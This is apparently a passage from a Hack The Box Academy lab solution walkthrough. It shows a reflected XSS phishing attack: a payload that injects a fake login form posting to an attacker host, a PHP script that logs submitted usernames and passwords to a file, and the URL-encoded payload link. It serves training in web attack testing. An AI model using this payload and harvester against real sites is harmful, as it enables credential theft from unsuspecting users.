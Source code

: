 Subsequently, the final XSS payload becomes:

Code: javascript

```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

![[HTB Solutions/CBBH/z. images/2315f1da18ac1bbdb5139ed6d58fb9e6_MD5.jpg]]

Afterward, students need to use the PHP script provided in the module's section and save it as "index.php" under `/tmp/tmpserver/` (a directory which they need to make) in Pwnbox/`PWNIP`, making sure that `STMIP` is replaced with the IP address of the spawned target machine:

Code: php

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://STMIP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Thereafter, students need to start a PHP server (using a port number other than 80, since it is already in use in Pwnbox) in `/tmp/tmpserver/` where "index.php" exists:

Code: php

```php
php -S 0.0.0.0:8080
```

```javascript
┌─[us-academy-1]─[10.10.14.55]─[htb-ac413848@pwnbox-base]─[/tmp/tmpserver]
└──╼ [★]$ php -S 0.0.0.0:8080

[Mon Jul 18 05:20:12 2022] PHP 7.4.21 Development Server (http://0.0.0.0:8080) started
```

Students then need to visit the page `/phishing/send.php` and provide the full URL of the XSS payload injected web page:

`http://PWNIP/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2FPWNIP%3APWNPO%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--`

![[HTB Solutions/CBBH/z. images/9151329abf14cc2d614e3ab7ce21aecf_MD5.jpg]]
